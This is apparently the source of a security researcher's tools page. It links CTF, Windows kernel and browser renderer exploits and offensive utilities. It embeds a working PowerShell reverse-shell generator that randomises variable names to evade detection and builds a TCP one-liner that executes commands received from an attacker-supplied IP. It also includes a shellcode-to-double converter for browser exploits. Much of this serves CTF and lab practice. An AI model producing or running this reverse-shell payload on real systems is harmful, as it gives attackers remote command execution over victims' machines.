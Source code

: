 ```yaml
---
# the default layout is 'page'
icon: fas fa-tools
order: 4
---
```


## Labs

- <https://vulnlab.com>

## Useful

- <https://wiki.vulnlab.com>
- [resh.py](https://gist.github.com/xct/ab71d58a29e9017eb38565e32aeb95b0)

## Shelf

- <https://github.com/xct/winssh>
- <https://github.com/xct/hashgrab>
- <https://github.com/xct/rcat>
- <https://github.com/xct/winpspy>

## Exploits

**Recent**

- [LACTF Rickroll Format String Exploit](https://gist.github.com/xct/0be84416307b66168f050cb9da64c5c4)
- [IdekCTF 2023 Typop (ROP, CSU)](https://gist.github.com/xct/5c4be3073ba76fea3a52d03a84cf0350)
- [Real World CTF 2023 NonHeanvyFTP (Race Condition)](https://gist.github.com/xct/f17488f42d48014a5dcc060714dbec1a)
- [ShaktiCTF 2022 PhrackCrack (Heap – House of Force)](https://gist.github.com/xct/88db526da32d492f3818d15942bbb39b)
- [ShaktiCTF 2022 Ropworks (ROP)](https://gist.github.com/xct/a2547024ea0922398450c71a44692955)
- [GlacierCTF 2022 (Heap – Fastbin Dup)](https://gist.github.com/xct/87ee193e28f66813a9e309cf29a4bc3c)
- [SquareCTF 2022 (Yara / Valgrind)](https://gist.github.com/xct/9b60d9255afe400dd0ce7bb774e613ec)
- [Ekoparty 2022 (Windows, ROP](https://gist.github.com/xct/c4569bd15ad85ea1b5917325b203e15b)
- [MTS HW Driver EOP (Windows, Kernel)](https://gist.github.com/xct/7d192b448793fc6decb4b59c5382bd61)

**Windows Kernel Practice**

- [Null Pointer Dereference Win7 x64 HEVD](https://github.com/xct/windows-kernel-exploits/blob/main/windows-exploits/HevdNullPointerMIWin7x64.cpp)
- [Pool Overflow Win7 x64 HEVD](https://github.com/xct/windows-kernel-exploits/blob/main/windows-exploits/HevdPoolOverflowWin7x64.cpp)
- [Stack Overflow Win10 , GS, Version 2, Version 3 x64 HEVD](https://github.com/xct/windows-kernel-exploits/blob/main/windows-exploits/HevdStackOverflowACLMI.cpp)
- [Type Confusion Win10, Version 2 x64 HEVD](https://github.com/xct/windows-kernel-exploits/blob/main/windows-exploits/HevdTypeConfusionMI.cpp)
- [Use-after-free Win10 x64 HEVD](https://github.com/xct/windows-kernel-exploits/blob/main/windows-exploits/HevdUAFMI.cpp)
- [Arbitrary Read/Write Win10 , Low Integrity, x64 Gigabyte Driver](https://github.com/xct/windows-kernel-exploits/blob/main/windows-exploits/GigabyteDriverMI.cpp)
- [Arbitrary Write Win10 x64 HEVD](https://github.com/xct/windows-kernel-exploits/blob/main/windows-exploits/HevdArbitraryWriteMI.cpp)

**Chrome**

- [StarCTF OOB custom patched Chromium, out-of-bounds access, renderer RCE](https://gist.github.com/xct/795216846c75c625fc10bf10d23982e6)

**Firefox**

- [Midenios custom patched Firefox, out-of-bounds access, renderer RCE](https://gist.github.com/xct/f339058bcb946fb8efd6df00cfb81a0d)

## PowerShell Shell Generator

<div class="container">
    <div class="row">
        <div class="col-md-6">
            <form>
                <div class="form-group">
                    <label for="ip">IP Address</label>
                    <input type="text" class="form-control" id="ip" placeholder="127.0.0.1" />
                </div>
                <div class="form-group">
                    <label for="port">Port</label>
                    <input type="text" class="form-control" id="port" placeholder="443" />
                </div>
                <button type="button" class="btn btn-primary mt-2" onclick="generateCode()">Generate</button>
            </form>
        </div>
    </div>
    <div class="row mt-4" id="outputContainer" style="display: none;">
        <div class="col-12">
            <div id="output" class="p-3 bg-dark text-white rounded" style="white-space: pre-wrap; font-family: monospace;"></div>
        </div>
    </div>
</div>

<script>
    function getRandomVariable() {
        const chars = 'abcdefghijklmnopqrstuvwxyz';
        let varName = '';
        for (let i = 0; i < Math.floor(Math.random() * 5) + 5; i++) {
            varName += chars[Math.floor(Math.random() * chars.length)];
        }
        return varName;
    }

    function generateByteArray(variableName) {
        return `[byte[]]$${variableName} = New-Object byte[] 65535;`;
    }

    function generateCode() {
        const ip = document.getElementById("ip").value;
        const port = document.getElementById("port").value;

        if (!ip || !port) {
            alert("Please enter both IP and port");
            return;
        }

        const varClient = getRandomVariable();
        const varStream = getRandomVariable();
        const varBytes = getRandomVariable();
        const varData = getRandomVariable();
        const varSendback = getRandomVariable();
        const varSendback2 = getRandomVariable();
        const varSendbyte = getRandomVariable();
        const varI = getRandomVariable();
        const varEncoding = Math.random() < 0.5 ? "ASCII" : "UTF8";
        const flushMethod = Math.random() < 0.5 ? "$stream.Flush();" : "[System.Threading.Thread]::Sleep(100);";

        const byteArrayInit = generateByteArray(varBytes);

        const powershellTemplate = `
$${varClient}=New-Object System.Net.Sockets.TCPClient("${ip}",${port});$${varStream}=$${varClient}.GetStream();${byteArrayInit}while(($${varI}=$${varStream}.Read($${varBytes},0,$${varBytes}.Length)) -ne 0){$${varData}=(New-Object -TypeName System.Text.${varEncoding}Encoding).GetString($${varBytes},0,$${varI});$${varSendback}=try{iex $${varData} 2>&1 | Out-String}catch{\$_};$${varSendback2}=$${varSendback}+"[>] ";$${varSendbyte}=([text.encoding]::${varEncoding}).GetBytes($${varSendback2});$${varStream}.Write($${varSendbyte},0,$${varSendbyte}.Length);${flushMethod}};$${varClient}.Close();
        `.replace(/\s+/g, ' ').replace(/\s?;\s?/g, ';').replace(/\s?{\s?/g, '{').trim();

        document.getElementById("output").innerText = powershellTemplate;
        document.getElementById('outputContainer').style.display = 'block';
    }
</script>




## Shellcode Converter

**Shellcode to Double Constants**

<script>
function b2d(byteArr) {
	if(byteArr.length != 8) {
    	alert('Needs to be an 8 bytes long array');
    }
    const bytes = new Uint8Array(byteArr);
    const doubles = new Float64Array(bytes.buffer);
    return doubles[0];
}

function inputToDouble(){
	let input = document.getElementById("inputToDouble").value;
	let parsed = input.split(",");

	let result = [];	
	let i = 0;
	for(token of parsed){
		result.push(parseInt(token, 16));
		i += 1;
	}
	let convs = [];
	const chunkSize = 8;
	for (let i = 0; i < result.length; i += chunkSize) {
	    const chunk = result.slice(i, i + chunkSize);
	    // fill up if < 8
	    for(let j=chunk.length; j<8;j++){
	    	chunk.push(0x90);
	    }
	    convs.push(chunk);
	}
	let outStr = "";
	for(c of convs){
		let conv = b2d(c);
		if(conv)
			outStr += `${conv}\n`
	}
	document.getElementById("inputToDouble").value = outStr;
	return false;
}
</script>

<textarea id="inputToDouble" name="inputToDouble" rows="10" cols="60" placeholder="Example:
0x41,0x41,0x41,0x41,0x41,0x41,0x41,0x41.."></textarea>

<form onsubmit="return inputToDouble();" form="jsShellcodeForm">
    <input type="submit" class="btn btn-primary" value="Convert">
</form>


**Double Constants to Shellcode**

<script>
function hexdump(arr){
    function pad(num, size) {
        num = num.toString();
        while (num.length < size) num = "0" + num;
        return num;
    }
    let s = ""
    for(v of arr){
        if(v<0){
            v = v+256;
        }
        s += "0x"+pad(v.toString(16),2)+","
    }    
    return s
}

function inputFromDouble(){
	let input = document.getElementById("inputFromDouble").value;
	let parsed = input.split("\n");
	let doubles = []
	for(token of parsed){
		doubles.push(parseFloat(token));
	}
	let outStr = "";
	for(double of doubles){
		var buffer = new ArrayBuffer(8);     
	    var longNum = new Float64Array(buffer);
	    longNum[0] = double;
	    var byteArr = Array.from(new Int8Array(buffer));
	    outStr += hexdump(byteArr)
	}
	outStr = outStr.substring(0, outStr.length-1);
	document.getElementById("inputFromDouble").value = outStr;
	return false;
}
</script>

<textarea id="inputFromDouble" name="inputFromDouble" rows="10" cols="60" placeholder="Example:
6.867659397734779e+246
7.806615353364766e+184
.."></textarea>

<form onsubmit="return inputFromDouble();" form="jsDoubleForm">
    <input type="submit" class="btn btn-primary" value="Convert">
</form>